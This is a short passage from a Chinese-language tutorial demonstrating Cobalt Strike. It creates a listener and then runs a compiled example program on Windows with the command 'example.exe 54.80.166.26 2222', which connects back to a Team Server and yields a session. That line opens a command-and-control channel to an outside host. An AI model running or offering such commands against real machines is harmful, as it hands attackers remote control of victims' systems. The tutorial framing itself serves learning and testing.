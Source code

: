     ### 2\. 实例演示

    此处使用官方示例程序进行演示，具体程序编译过程此处省略。
    创建监听器：
    ![](img/83d238dc6157a5ccb2f28169cec7da44.png)
    windows 执行编译好的程序连接 Cobalt Strike Team Server：`example.exe 54.80.166.26 2222`
    Cobalt Strike Team Server 收到 Session：
    ![](img/383e8e2b5b5cba922b1f68b4fe84aa12.png)

